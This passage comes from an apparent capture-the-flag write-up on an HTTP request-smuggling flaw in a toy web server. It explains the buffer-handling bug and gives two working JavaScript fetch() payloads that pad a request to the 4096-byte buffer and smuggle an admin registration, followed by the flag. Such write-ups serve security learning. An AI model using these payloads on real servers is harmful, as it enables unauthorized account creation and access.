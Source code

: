 ```py
s.send(response_body.encode())
client["buffer"] = client["buffer"][len(header) + 4 + content_length:]
```

**Bingo!** The server only discards the part of the request already received in the buffer.
If the full request wasn’t received yet, the remainder is treated as a **new** request!

Here’s the payload I crafted based on that behavior:

```js
fetch("http://127.0.0.1:8080/register", {
  method: "POST",
  body:
    "POST /register?: HTTP/1.1\r\n".repeat(151) +
    "X-Username: admin\r\n" +
    "X-Password: admin\r\n" +
    "\r\n",
  mode: "no-cors",
});
```

The body contains enough repeated `POST /register?: HTTP/1.1\r\n` lines to reach the 4096-byte buffer limit, and each line can be interpreted by the server either as an HTTP request line or as a malformed header, depending on where in the buffer it lands.
This ambiguity allows the second request to be smuggled in without needing to find the exact byte offset.

After fine-tuning the offset and testing with the bot, I was finally able to access `/flag` and register as admin with `admin:admin`.

Here’s the final payload:

```js
fetch("http://127.0.0.1:8080/register", {
  method: "POST",
  body:
    "abcde" +
    "POST /register?: HTTP/1.1\r\n".repeat(151) +
    "X-Username: admin\r\n" +
    "X-Password: admin\r\n" +
    "\r\n",
  mode: "no-cors",
});
```

```
ictf{oops_ig_my_webserver_is_just_ai_slop_b9f415ea}
```

# References

- MDN: [CORS-safelisted request header](https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_request_header)
- MDN: [Content-Length header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Length)
- Payloads All The Things: [Request Smuggling](https://swisskyrepo.github.io/PayloadsAllTheThings/Request%20Smuggling/)
